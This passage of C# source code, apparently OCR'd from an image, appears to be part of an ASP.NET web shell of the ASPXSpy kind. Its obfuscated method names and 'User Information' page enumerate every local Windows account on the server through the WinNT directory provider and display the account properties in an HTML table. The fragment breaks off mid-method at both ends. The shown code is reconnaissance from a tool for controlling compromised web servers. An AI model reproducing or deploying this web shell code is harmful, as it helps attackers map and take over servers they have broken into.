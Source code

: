 tr.Controls.Add(td);
}
}
vHCs.Controls.Add(tr);
}
}
catch(Exception error)
{
oHpF();
}
}
public void PLd()
{
try
{
WICxe();
xWVQ.Visible=true;
Bin_H2_Title.InnerText="User Information >>";
DirectoryEntry TWQ=new DirectoryEntry("WinNT://"+Environment.MachineName.ToString());
foreach(DirectoryEntry child in TWQ.Children)
{
foreach(string name in child.Properties.PropertyNames)
{
PropertyValueCollection pvc=child.Properties[name];
int c=pvc.Count;
for(int i=0;i<c;i++)
{
if(name!="objectSid" && name!="Parameters" && name!="LoginHours")
{
string bg=OKM();
TableRow tr=new TableRow();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
TableCell td=new TableCell();
td.Text=name;
tr.Controls.Add(td);
TableCell td1=new TableCell();
td1.Text=pvc[i].ToString();
tr.Controls.Add(td1);
VPa.Controls.Add(tr);
}
}
}
TableRow trn=new TableRow();
for(int x=1;x<3;x++)
{
TableCell tdn=new TableCell();
tdn.Attributes["style"]="height:2px;background-color:#bbbbbb;";
trn.Controls.Add(tdn);
VPa.Controls.Add(trn);
}
}
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public void iLVUT()
{
try
{
WICxe();